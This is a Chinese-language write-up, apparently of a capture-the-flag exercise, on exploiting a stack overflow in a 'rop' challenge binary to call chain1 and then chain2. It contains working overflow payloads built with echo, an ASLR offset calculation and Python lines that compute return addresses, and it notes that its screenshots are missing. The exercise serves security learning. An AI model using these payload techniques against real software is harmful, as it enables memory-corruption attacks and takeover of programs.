







# rop

Run the binary `rop` on the device. Your task is to exploit a vulnerability to call the
function `chain1` followed by `chain2` in the rop binary.

## Make ROP Chains



当argc为2时，读取`hax.bin`文件到`char acStack_58 [64]`长度是64，这里只要溢出并且将 `lr` 覆盖为`chain1`的地址就能跳转。


- **lldb** 一开始用 lldb 来查看 lr 的值只有48位，看栈上面又是 64 位：



- **console.app** 于是采用查看崩溃报告的方式：
```bash
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\x46\x46\x46\x46\x46\x46\x46\x46\x48\x48\x48\x48\x48\x48\x48\x48" > hax.bin
$ bin/rop 1
```
然后查看崩溃报告：



lr 寄存器的值为：`0x4642424242424242`

因为启用 aslr 所以要计算偏移量，如下例子中偏移量为 `0x1022d3db4-0x100003db4（main 函数的RVA）` ：
```bash
$ bin/rop
Address of main function is 0x1022d3db4
ROP chain challenge, call the function chain1 followed by chain2
...
```
在 Ghidra 中找到 `chain1`：



这里跳转到 chain1 函数 的第二条指令，保留 main 栈，使用命令计算地址：`python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d14))"`，再以小端的形式加到hax.bin中：

```bash
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x14\x7d\xe1\x04\x01\x00\x00\x00" > hax.bin
```



**接下来构造chain2**

先找出第二个能覆盖LR的位置，经过一番尝试后找到了：



```
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42{chain1 placeholder}\x43\x43\x43\x43\x43\x43\x43\x43{chain2 placeholder}
```

- chain1 的地址为: python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d14))"
- chain2 的地址为: python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d90))"

挑战成功：
